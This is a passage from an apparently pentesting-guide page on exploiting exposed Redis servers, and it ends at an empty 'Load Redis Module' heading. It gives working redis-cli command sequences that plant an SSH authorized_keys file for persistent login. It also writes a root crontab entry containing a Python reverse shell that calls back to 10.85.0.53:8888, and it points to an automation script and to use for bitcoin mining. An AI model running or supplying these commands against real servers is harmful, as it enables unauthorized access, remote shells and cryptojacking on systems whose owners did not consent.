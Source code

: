 ​If the webshell access exception, you can empty the database after backup and try again, remember to restore the database.

### SSH

Please be aware **`config get dir`** result can be changed after other manually exploit commands. Suggest to run it first right after login into Redis. In the output of **`config get dir`** you could find the **home** of the **redis user** (usually _/var/lib/redis_ or _/home/redis/.ssh_), and knowing this you know where you can write the `authenticated_users` file to access via ssh **with the user redis**. If you know the home of other valid user where you have writable permissions you can also abuse it:

1. Generate a ssh public-private key pair on your pc: **`ssh-keygen -t rsa`**
2. Write the public key to a file : **`(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`**
3. Import the file into redis : **`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`**
4.  Save the public key to the **authorized\_keys** file on redis server:

    ```
    root@Urahara:~# redis-cli -h 10.85.0.52
    10.85.0.52:6379> config set dir /var/lib/redis/.ssh
    OK
    10.85.0.52:6379> config set dbfilename "authorized_keys"
    OK
    10.85.0.52:6379> save
    OK
    ```
5. Finally, you can **ssh** to the **redis server** with private key : **ssh -i id\_rsa redis@10.85.0.52**

**This technique is automated here:** [https://github.com/Avinash-acid/Redis-Server-Exploit](https://github.com/Avinash-acid/Redis-Server-Exploit)

### Crontab

```
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```

The last exampleis for Ubuntu, for **Centos**, the above command should be: `redis-cli -h 10.85.0.52 config set dir /var/spool/cron/`

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

### Load Redis Module
